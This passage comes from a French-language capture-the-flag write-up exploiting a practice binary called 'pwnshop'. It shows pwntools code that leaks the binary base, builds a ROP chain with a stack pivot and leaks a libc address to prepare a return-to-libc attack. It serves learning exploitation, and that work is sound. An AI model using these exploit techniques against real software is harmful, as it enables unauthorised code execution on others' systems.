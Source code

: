 ```python
        io.sendafter('Enter details: ', payload)
        
        io.interactive()

if __name__ == '__main__':
        main()
```

L’exploit va nous permettre de créé plus de place pour nos entrés en utilisant le stack pivot.

`—- Return to Libc -—`

L’objectif maintenant est de trouver libc dans le programme qui pourra nous donner accès au système.

Nous devons trouver le pointeur qui nous amène à libc.

 Retournons sur gidhra et cliquons dans Program Trees .got.plt

Nous allons prendre l’adresse de puts et l’adresse pointeur XREF de la fonction puts et si nous suivons cette adresse nous pouvons voir ou est créé puts.

Mise à jour de l’exploit nous permettant d’obtenir l’adresse leak de Libc :

```python
#!/usr/bin/env python3

from pwn import *

def main():
        io = process('./pwnshop')

        #STEP 1 Leak binary address

        io.sendlineafter('\n> ', '2')
        io.sendlineafter('What do you wish to sell? ', '')
        leak_padding = b'1'*8
        io.sendafter('How much do you want for it? ', leak_padding)

        binary_offset = io.recvline().split(b'1'*8)[1].split(b'?')[0]
        binary_offset = bytearray(binary_offset).ljust(8, b'\x00')
        binary_offset = u64(binary_offset, endian='little')
        binary_offset -= 0x40c0
        log.success(f'Leaked Binary Offset: {str(hex(binary_offset))}')

        #STEP 2 Stack Pivot

        got_puts = p64(binary_offset + 0x4018) #Adresse de puts lien pointeur mémoire
        plt_puts = p64(binary_offset + 0x1030) #Adresse du pointeur de puts
        pop_rdi = p64(binary_offset + 0x13c3) #Adresse d'un pop rdi qui nous permet de ne pas juste crash
        buy_function = p64(binary_offset + 0x132a) #Adresse de la fonction buy
        padding_to_rop_chain = b'a'*40

        rop_chain = pop_rdi + got_puts + plt_puts + buy_function
        padding_to_stack_pivot = (72 - len(padding_to_rop_chain) - len(rop_chain)) * b'b'
        sub_rsp = p64(0x1219 + binary_offset) #0x1219 venant de ROPGadget

        payload = padding_to_rop_chain + rop_chain + padding_to_stack_pivot + sub_rsp
        print(payload)

        io.sendlineafter('\n> ', '1')
        io.sendafter('Enter details: ', payload)

        leaked_puts_libc = io.recvline()[:6]
        leaked_puts_libc = bytearray(leaked_puts_libc).ljust(8, b'\x00')
        leaked_puts_libc = u64(leaked_puts_libc, endian='little')
```